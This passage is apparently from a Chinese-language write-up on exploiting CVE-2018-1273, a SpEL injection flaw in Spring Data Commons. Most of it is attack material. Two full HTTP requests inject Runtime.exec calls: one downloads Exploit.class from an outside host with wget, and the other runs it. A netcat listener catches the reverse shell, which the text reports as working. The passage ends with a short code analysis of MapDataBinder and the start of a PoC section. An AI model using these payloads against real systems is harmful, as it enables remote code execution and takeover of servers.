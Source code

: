 ```
POST /users?page=&size=5 HTTP/1.1Host: 49.235.54.135:24814User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Content-Type: application/x-www-form-urlencodedContent-Length: 149Origin: http://49.235.54.135:24814Connection: closeReferer: http://49.235.54.135:24814//usersUpgrade-Insecure-Requests: 1username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://198.13.51.45:8080/Exploit.class")]=&password=&repeatedPassword=
```

然后我们再 vps 上面监听 2222 端口

```
nc -lvvp 2222
```

然后再 bp 执行

```
POST /users?page=&size=5 HTTP/1.1Host: 49.235.54.135:24814User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Content-Type: application/x-www-form-urlencodedContent-Length: 118Origin: http://49.235.54.135:24814Connection: closeReferer: http://49.235.54.135:24814//usersUpgrade-Insecure-Requests: 1username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("java Exploit")]=&password=&repeatedPassword=
```

反弹 shell 成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0QOhPGHMAyuZSMicGB3wqE9CkNWkAfgL7MOLOLiaYlqID6t3ibhIu3kFYA/640?wx_fmt=png)

#### 1.3 cve-2018-1273 poc 编写

Spring 在自动解析用户参数时候使用了`SpelExpressionParser` 来解析`propertyName`

MapDataBinder.java

```
Expression expression = PARSER.parseExpression(propertyName);  PropertyPath leafProperty = getPropertyPath(propertyName).getLeafProperty();  TypeInformation<?> owningType = leafProperty.getOwningType();  TypeInformation<?> propertyType = owningType.getProperty(leafProperty.getSegment());  propertyType = propertyName.endsWith("]") ? propertyType.getActualType() : propertyType;  if (conversionRequired(value, propertyType.getType())) {    PropertyDescriptor descriptor = BeanUtils        .getPropertyDescriptor(owningType.getType(), leafProperty.getSegment());    MethodParameter methodParameter = new MethodParameter(descriptor.getReadMethod(), -1);    TypeDescriptor typeDescriptor = TypeDescriptor.nested(methodParameter, 0);    value = conversionService.convert(value, TypeDescriptor.forObject(value), typeDescriptor);  }  expression.setValue(context, value);
```

`ProxyingHandlerMethodArgumentResolver`在拿到参数的时候会创建一个`MapDataBinder`来解析参数`MapDataBinder.bind()`方法，会连带进行`doBind`操作，最终会调用到 `setPropertyValue` 方法来，最后在 `expression.setValue(context, value)` 的时候触发了漏洞

**使用说明**

准备好 class 文件

Exploit.java

